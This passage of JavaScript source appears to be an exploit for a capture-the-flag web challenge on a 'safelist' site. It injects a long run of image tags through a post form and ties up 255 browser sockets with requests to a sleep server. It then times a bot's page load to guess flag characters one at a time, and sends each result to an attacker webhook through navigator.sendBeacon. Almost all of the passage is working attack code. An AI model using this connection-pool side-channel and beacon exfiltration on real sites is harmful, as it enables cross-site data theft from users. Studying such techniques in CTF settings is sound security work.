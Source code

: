```html
let payload = JSON.stringify({ known, alphabet, data });
console.log(id, payload);
navigator.sendBeacon(WEBHOOK + "?" + id, payload);
}

// Similar to JQuery
const $ = document.querySelector.bind(document);

// Known part of the flag
const known = "SEKAI{";
let alphabet = "_abcdefghijklmnopqrstuvwxyz}";

// Reduce the alphabet using a hash (#) in the URL
if (location.hash) {
alphabet = alphabet.slice(alphabet.indexOf(location.hash.slice(1)));
}

// Funtion to leak chars
const leak = async (c) => {
// Prepare post with known flag and the new char
let payload = `${known + c}`;
// Inject as many <img as possible
// you need to respect the CSP and create URLs that are different
for(let i = 0; payload.length < 2048; i++) {
payload += `<img src=js/purify.js?${i.toString(36)}>`;
}

// Inject HTML
$("#create input[type=text]").value = payload;
$("#create").submit();
await new Promise(r => setTimeout(r, 1000));

// Remove post with index 0
$("#remove").submit();
await new Promise(r => setTimeout(r, 500));

let deltas = [];

// Try each char 3 times
for (let i = 0; i < 3; i++) {
const SOCKET_LIMIT = 255;
// you will need a custom server that works like num.sleepserver.com/sleep/delay
// needed to freeze the blocked sockets, and they have to all be on different origins
// Check https://www.npmjs.com/package/sleep-server using subdomains DNS wildcard
const SLEEP_SERVER = i => `http://${i}.sleepserver.com/sleep/60`;

const block = async (i, controller) => {
try {
return fetch(SLEEP_SERVER(i), { mode: "no-cors", signal: controller.signal });
}
catch(err) {}
};

// block SOCKET_LIMIT sockets
const controller = new AbortController();
for (let i = 0; i < SOCKET_LIMIT; i++) {
block(i, controller);
}

// Make the bot access the page with the posts
window.open("https://safelist.ctf.sekai.team/?" + Math.random().toString(36).slice(2), "pwn");
await new Promise(r => setTimeout(r, 500));

```